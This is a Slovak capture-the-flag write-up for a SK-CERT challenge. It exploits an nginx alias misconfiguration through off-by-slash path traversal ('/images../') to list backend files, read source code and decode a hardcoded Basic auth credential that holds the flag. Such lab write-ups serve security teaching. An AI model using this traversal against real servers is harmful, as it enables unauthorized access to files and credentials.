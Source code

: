 # Zadanie

EN: We are suspecting that the website on [http://exp.cybergame.sk:7000/](http://exp.cybergame.sk:7000/) is hiding something. We need to find out what is hidden in the website. We've gathered what seems to be a proxy configuration file from our trusted source.

SK: Podozrieva sa, že webová stránka na adrese [http://exp.cybergame.sk:7000/](http://exp.cybergame.sk:7000/) niečo skrýva. Potrebujeme zistiť, čo je na tejto stránke skryté. Od nášho spoľahlivého zdroja sme získali čosi, čo sa javí ako konfiguračný súbor proxy.

**Súbory**

- nginx.conf

## Riešenie

```nginx
events {
    worker_connections 1024;
}

http {
    include mime.types;

    server {
        listen 80;
        server_name localhost;

        root /app/src/html/;
        index index.html;


        location /images {
            alias /app/src/images/;
            autoindex on;
        }

        location /ponies/ {
            alias /app/src/ponies/;
        }

        location /resources/ {
            alias /app/src/resources/;
        }

        location /secretbackend/ {
            proxy_pass http://secretbackend:3000/;
            proxy_set_header Host $host;
            proxy_set_header X-Real-IP $remote_addr;
        }
    }
}
```

Prvé, čo nám bije do očí sú dve veci, route secretbackend  a autoindex na /images. Secretbackend pýta heslo, to nemáme, skúsime pozrieť route-u /images

Zaujímavéje , že keď otvorím `http://exp.cybergame.sk:7000/images` ako je route v confe, tak ma vráti na samotnú stránku, ale keď otvorím `http://exp.cybergame.sk:7000/images/` s lomítkom, tak bez problémov dostanem indexovaný priečinok images... skúsim path traverse `....../images/..` alebo `....../images/../` neúspech.. Ale podľa confu nám lomítko doplní aj keď ho nedáme, otvoríme teda `....../images../`

A máme výpis priečinka nad images

```
Index of /images../
../
html/                                              05-Mar-2025 11:54                   -
images/                                            05-Mar-2025 10:10                   -
ponies/                                            05-Mar-2025 10:05                   -
resources/                                         05-Mar-2025 10:07                   -
secretbackend/                                     31-Mar-2025 19:22                   -
```

A rovno aj obsah pričinka secretbackend

```
Index of /images../secretbackend/
../
public/                                            05-Mar-2025 10:23                   -
db.js                                              31-Mar-2025 19:21                3825
index.js                                           18-Mar-2025 12:26                4348
jwt.js                                             13-Mar-2025 15:13                 895
package-lock.json                                  13-Mar-2025 13:03               99556
package.json                                       13-Mar-2025 13:03                 457
```

na public sa bez hesla nedostane, tam je už index.html, ktorý nám zobrazuje stránku secretbackendu, ale je chránený heslom.. Pozrieme obsah súboru index.js.. 

index.js obsahuje auth string, 

```javascript
app.use((req, res, next) => {
  if (
    req.headers.authorization !==
    "Basic cHIxbmNlc3M6U0stQ0VSVHswZmZfYnlfNF9zMW5nbGVfc2w0c2hfZjgzNmE4YjF9"
  ) {
    res.setHeader("WWW-Authenticate", 'Basic realm="Secure Stable Area"');
    return res.status(401).send("Unauthorized");
  }
  next();
});
```

ktorý by mal v base64 obsahovať meno heslo, dekódujeme a dostaneme

```
pr1ncess:SK-CERT{0ff_by_4_s1ngle_sl4sh_f836a8b1}

user:pr1ncess
pass:SK-CERT{0ff_by_4_s1ngle_sl4sh_f836a8b1}
```

## Vlajka

```
SK-CERT{0ff_by_4_s1ngle_sl4sh_f836a8b1}
```
